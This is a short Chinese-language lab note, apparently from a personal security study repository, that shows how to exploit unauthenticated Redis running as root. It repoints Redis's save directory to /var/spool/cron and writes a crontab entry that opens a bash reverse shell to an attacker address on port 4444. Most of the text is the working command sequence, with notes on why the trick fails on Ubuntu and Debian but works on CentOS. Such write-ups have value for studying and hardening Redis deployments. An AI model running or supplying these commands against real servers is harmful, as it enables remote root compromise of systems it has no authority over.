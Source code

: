 # redis未授权利用crontal反弹shell

## 利用条件

redis以root身份运行

## 漏洞利用过程

### 靶机：ubuntu 16.04

#### 本机查看crontab所在位置

`find / -name cron`

![image-20210702111659943](.\images\image17.png)

#### 将redis备份路径修改为定时任务路径

`config set dir /var/spool/cron`

![image-20210702111938181](.\images\image18.png)

#### 修改备份文件名

`config set dbfilename root`

![image-20210702154210622](.\images\imag20.png)

#### 写入反弹shell的定时任务

`set x "\n\n\n* * * * * bash -i >& /dev/tcp/192.168.5.130/4444 ->&1\n\n\n"`

![image-20210702154308146](.\images\image21.png)

#### 结果未成功

### 靶机为CentOS

#### CentOS安装redis(编译安装)

出现安装不了工具的情况，换源

`https://www.cnblogs.com/yangyangming/p/12516780.html`

#### CentOS安装redis

`https://blog.csdn.net/anshaobiao6449/article/details/101121418`

```shell
wget http://download.redis.io/redis-stable.tar.gz
tar xzf redis-stable.tar.gz
cd /redis-stable
make
make install
```



#### 写入定时任务反弹shell

```
redis-cli -h 192.168.5.137
# config get dir
config set dir /var/spool/cron
# config get dbfilename
config set dbfilename root
set x "\n\n\n*/1 * * * * bash -i >& /dev/tcp/192.168.5.130/4444 0>&1\n\n\n"
save
```

![image-20210702162953011](.\images\image20.png)

![image-20210702162927829](.\images\image21.png)

### 坑

**crontab反弹debian,ubuntu都不行**，因为他们对计划任务的格式很严格，必须要执行
`crontab -u root /var/spool/cron/crontabs/root`
通过语法检查后，才能执行计划任务。

`https://www.cnblogs.com/twosmi1e/p/13308682.html`

